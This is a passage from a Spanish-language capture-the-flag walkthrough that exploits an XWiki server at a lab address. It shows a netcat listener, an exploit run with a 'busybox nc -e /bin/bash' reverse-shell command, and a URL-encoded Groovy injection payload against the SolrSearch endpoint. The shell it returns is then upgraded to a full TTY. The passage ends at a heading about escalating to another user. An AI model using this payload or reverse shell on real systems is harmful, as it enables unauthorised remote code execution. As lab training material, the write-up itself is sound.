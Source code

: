 Antes de ejecutar nada vamos a ponernos a la escucha.

```shell
nc -lvnp <PORT>
```

Ahora vamos a ejecutar el exploit tal cual como viene en el `github` a ver si funciona:

```shell
python3 exploit.py -t 'http://<IP>:8080' -c 'busybox nc <IP_ATTACKER> <PORT_ATTACKER> -e /bin/bash'
```

Info:

```
[*] Attacking http://10.10.11.80:8080
[*] Injecting the payload:
http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22busybox%20nc%2010.10.14.32%207777%20-e%20/bin/bash%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
[*] Command executed

~Happy Hacking
```

Si volvemos a donde tenemos la escucha:

```
listening on [any] 7777 ...
connect to [10.10.14.32] from (UNKNOWN) [10.10.11.80] 60878
whoami
xwiki
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user oliver
